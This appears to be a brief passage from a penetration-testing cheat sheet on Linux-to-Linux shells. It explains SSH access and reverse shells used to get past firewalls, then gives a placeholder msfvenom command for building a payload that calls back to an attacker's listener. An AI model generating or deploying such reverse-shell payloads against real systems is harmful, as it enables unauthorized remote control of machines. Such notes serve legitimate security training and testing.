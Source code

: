 
## Linux -> Linux

Establishing a shell or reverse shell connection between two Linux machines is simple since they use the same type of shell and similar commands. Use SSH to connect to a remote machine and run commands on it. Use the ssh command on the attacking machine to initiate the connection and authenticate with the target machine. To establish a reverse shell connection, the target machine initiates the connection to the attacking machine and runs commands on it. This can be helpful when the target machine has limited connectivity or is behind a firewall. As long as both machines have compatible shells and necessary tools, establishing a connection between them is not a concern.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]
```